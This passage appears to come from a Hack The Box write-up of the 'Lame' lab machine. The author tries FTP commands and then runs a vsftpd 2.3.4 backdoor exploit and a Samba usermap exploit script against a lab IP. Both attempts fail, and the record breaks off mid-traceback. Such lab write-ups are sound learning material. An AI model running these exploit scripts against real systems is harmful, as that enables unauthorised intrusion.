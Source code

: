 ```
ftp> quote whoami
500 Unknown command.
ftp> quote ls
500 Unknown command.
```

Cant really execute any commands, maybe will use to transfer file later on in the process.

VSFTPD Exploitation attempt #2:
Sadly it failed :(

```
root@kali:/home/kali/Desktop/HTB/machines/lame# python3 vsftpd_234_exploit.py 10.129.95.84 21 whoami 
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
[!] Failed to connect to backdoor on 10.129.95.84:6200
```

#### Samba

Imma use [this](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851) exploit first to see what the outcome will be:

```
root@kali:/home/kali/Desktop/HTB/machines/lame# python -m pip install pysmb
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Collecting pysmb
  Downloading pysmb-1.2.6.zip (1.3 MB)
     |████████████████████████████████| 1.3 MB 17.9 MB/s 
Collecting pyasn1
  Downloading pyasn1-0.4.8-py2.py3-none-any.whl (77 kB)
     |████████████████████████████████| 77 kB 13.6 MB/s 
Building wheels for collected packages: pysmb
  Building wheel for pysmb (setup.py) ... done
  Created wheel for pysmb: filename=pysmb-1.2.6-py2-none-any.whl size=83811 sha256=8932e100c8dbc308890431f9640819853c5ae3dc00fee081d220820a7273a348
  Stored in directory: /root/.cache/pip/wheels/1f/8a/1e/300e48a168ba84cfa4668955860016d44330faebab0ccb097e
Successfully built pysmb
Installing collected packages: pyasn1, pysmb
Successfully installed pyasn1-0.4.8 pysmb-1.2.6
WARNING: You are using pip version 20.2.4; however, version 20.3.4 is available.
You should consider upgrading via the '/usr/bin/python -m pip install --upgrade pip' command.
root@kali:/home/kali/Desktop/HTB/machines/lame# python samba-usermap-exploit.py 10.129.95.84
ls
Traceback (most recent call last):
  File "samba-usermap-exploit.py", line 42, in <module>
    assert conn.connect(sys.argv[1], 445)
  File "/usr/local/lib/python2.7/dist-packages/smb/SMBConnection.py", line 122, in connect
    self._pollForNetBIOSPacket(timeout)
  File "/usr/local/lib/python2.7/dist-packages/smb/SMBConnection.py", line 595, in _pollForNetBIOSPacket
    raise SMBTimeout
smb.base.SMBTimeout
root@kali:/home/kali/Desktop/HTB/machines/lame# ls
enum4linux.txt	firstnmap.txt  rpcclient.txt		 secondnmap.txt  vsftpd_234_exploit.py
firstnikto.txt	NMBlookup.txt  samba-usermap-exploit.py  smbclient.txt
root@kali:/home/kali/Desktop/HTB/machines/lame# nano samba-usermap-exploit.py 
root@kali:/home/kali/Desktop/HTB/machines/lame# python samba-usermap-exploit.py 10.129.95.84
Traceback (most recent call last):
  File "samba-usermap-exploit.py", line 42, in <module>
```
